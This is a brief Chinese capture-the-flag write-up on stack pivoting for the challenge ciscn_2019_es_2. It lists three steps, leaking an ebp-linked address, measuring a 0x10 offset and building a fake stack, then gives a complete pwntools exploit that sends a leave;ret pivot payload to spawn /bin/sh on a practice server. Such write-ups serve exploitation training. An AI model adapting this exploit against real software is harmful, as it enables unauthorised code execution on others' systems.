```yaml
---
title: 栈迁移
categories: 
    - Stack
    - 栈迁移
---
```

# 栈迁移
<!--more-->
## _ciscn_2019_es_2

第一步：是把一个与ebp有关的地址泄漏出来，可以通过栈的填充做到

第二步：找到一个ebp与泄漏地址的偏移距离

第三步：构造fake_stack

fake_stack：

![1592217825493-a03b7b13-c3d9-4411-b7af-ddaaa2a27a7f](https://raw.githubusercontent.com/YTrick/image/branch/image/1592217825493-a03b7b13-c3d9-4411-b7af-ddaaa2a27a7f.png)


偏移距离：

break在printf处

![20201208200613](https://raw.githubusercontent.com/YTrick/image/branch/image/20201208200613.png)

距离为0x10

exp：

```python
from pwn import *
from LibcSearcher import *

p = remote('node3.buuoj.cn',25520)
#p = remote('127.0.0.1',12345)
#p = process("./ciscn_2019_es_2")
context.log_level='debug'

sys_addr = 0x08048400
leave_ret = 0x080485FD

payload = 'a'*0x20+'b'*8
p.send(payload)
p.recvuntil('bbbbbbbb')
ebp = u32(p.recv(4))
print(hex(ebp))

payload1 = ('aaaa' + p32(sys_addr) + 'bbbb' + p32(ebp-0x28) + '/bin/sh\x00')
payload1 = payload1.ljust(0x28,'a')
payload1 += p32(ebp-0x28-0x10) + p32(leave_ret)
p.sendline(payload1)
p.interactive()

```














